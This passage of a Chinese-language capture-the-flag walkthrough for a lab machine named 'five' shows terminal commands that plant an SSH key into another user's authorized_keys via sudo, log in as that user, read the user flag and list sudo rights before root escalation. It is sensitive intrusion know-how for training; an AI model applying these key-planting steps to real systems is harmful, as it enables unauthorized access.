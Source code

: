 说明确实开放了相关端口，但是没有`authorized_keys`，生成一个cp进去！

```bash
(remote) www-data@five:/tmp$ ssh-keygen -y -f melisa > authorized_keys
(remote) www-data@five:/tmp$ sudo -u melisa cp /tmp/authorized_keys /home/melisa/.ssh/authorized_keys
(remote) www-data@five:/tmp$ ssh melisa@127.0.0.1 -p 4444 -i melisa 
Could not create directory '/var/www/.ssh'.
The authenticity of host '[127.0.0.1]:4444 ([127.0.0.1]:4444)' can't be established.
ECDSA key fingerprint is SHA256:jWQpYhXQJtOuJfrNjZvNSilLDT7fkbFxeioQzGTBY7Y.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
Linux five 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct  6 03:39:32 2020 from 192.168.1.58
melisa@five:~$ 
```

成功登录！

### 提权至root

先信息搜集

```bash
melisa@five:~$ ls -la
total 40
drwxr-xr-x 4 melisa melisa 4096 Oct  6  2020 .
drwxr-xr-x 3 root   root   4096 Oct  5  2020 ..
-rw-r--r-- 1 melisa melisa  220 Oct  5  2020 .bash_logout
-rw-r--r-- 1 melisa melisa 3526 Oct  5  2020 .bashrc
-rw------- 1 melisa melisa   72 Oct  5  2020 .lesshst
drwxr-xr-x 3 melisa melisa 4096 Oct  5  2020 .local
-rw-r--r-- 1 melisa melisa  807 Oct  5  2020 .profile
drwx------ 2 melisa melisa 4096 Oct  6  2020 .ssh
-rw------- 1 melisa melisa   14 Oct  5  2020 user.txt
-rw------- 1 melisa melisa  100 Oct  6  2020 .Xauthority
melisa@five:~$ cat user.txt 
Ilovebinaries
melisa@five:~$ sudo -l
Matching Defaults entries for melisa on five:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User melisa may run the following commands on five:
    (ALL) SETENV: NOPASSWD: /bin/pwd, /bin/arch, /bin/man, /bin/id, /bin/rm, /bin/clear
```
